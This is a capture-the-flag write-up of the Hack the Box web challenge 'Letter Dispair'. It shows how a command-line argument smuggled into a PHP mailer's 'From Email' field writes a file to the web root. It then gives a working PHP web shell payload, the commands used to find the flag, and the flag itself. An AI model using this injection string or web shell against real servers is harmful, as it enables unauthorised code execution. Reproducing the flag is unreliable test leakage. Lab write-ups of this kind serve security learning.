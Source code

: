 # Writeup "Letter Dispair"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                                      </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/letter-dispair              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-letter-dispair-discussion </td></tr>
   <tr><td><b> type       </b></td><td> challenge/web                                                     </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                              </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-07-31                                                        </td></tr>
   <tr><td><b> enddate    </b></td><td> 2022-08-03                                                        </td></tr>
</table>

## Description

> A high-profile political individual was a victim of a spear-phishing attack. The email came from a legitimate government entity in a nation we don't have jurisdiction. However, we have traced the originating mail to a government webserver. Further enumeration revealed an open directory index containing a PHP mailer script we think was used to send the email. We need access to the server to read the logs and find out the actual perpetrator. Can you help?

## Description

We receive an IP and port to a server. When we access the server using a web browser, we see a directory listing with three files:

<p align="center">
   <img src="includes/letter-dispair-01.png" />
</p>

`mailer.php` displays a form for sending e-mails:

<p align="center">
   <img src="includes/letter-dispair-02.png" />
</p>

`mailer.zip` contains a copy of `mailer.php`, which allows us to analyse the source code.

A quick Google search tells us that PHP's `mail()`[^1] function allows remote code execution if the fifth parameter can be influenced by the user[^2]. Checking the source code reveals that the code is vulnerable. Whatever we put in the "From Email" field will be used as a parameter.

Following an article describing how to exploit the vulnerability[^3], we enter the following string in the "From Email" field to create a publicly-accessible PHP file whose contents we can manipulate:

```
relations@moi.gov.htb -X/var/www/html/rce.php
```

Our payload will be a makeshift PHP shell, which we enter into the "Subject" field. The following line would be sufficient:

```
&lt;?php system($_GET[&quot;cmd&quot;]); ?&gt;
```

However, this is not very comfortable. We therefore improve the code to include a text field for entering commands and which formats the output:

```
&lt;hr /&gt;
&lt;form action=&quot;rce.php&quot; method=&quot;get&quot;&gt;
  &lt;input type=&quot;text&quot; 
    id=&quot;cmd&quot; 
    name=&quot;cmd&quot; 
    value=&#039;&lt;?php print($_GET[&quot;cmd&quot;]); ?&gt;&#039; 
    autofocus 
    onfocus=&quot;var temp_value=this.value; 
      this.value=&#039;&#039;; 
      this.value=temp_value&quot; /&gt;
&lt;/form&gt;
&lt;hr /&gt;
&lt;pre&gt;
  &lt;?php system($_GET[&quot;cmd&quot;]); ?&gt;
&lt;/pre&gt;
&lt;hr /&gt;
```

After hitting the "Start Delivery" button, we reload the directory listing in order to verify that the file was created correctly. If no file is visible, we have to try different paths. In this case we are lucky on the first try:

<p align="center">
   <img src="includes/letter-dispair-03.png" />
</p>

We can now open our PHP shell and start looking for the flag. Using the following commands, we are successful:

```
ls -la
whoami
find / -name *flag*
cat /flag.txt
```

<p align="center">
   <img src="includes/letter-dispair-04.png" />
</p>

```
HTB{4_l3tt3r_0f_h0p3_c0nqu3r1ng_d1sp4ir!}
```

### Sources

[^1]: https://www.php.net/manual/de/function.mail.php
[^2]: https://blog.sonarsource.com/why-mail-is-dangerous-in-php/
[^3]: https://www.saotn.org/exploit-phps-mail-get-remote-code-execution
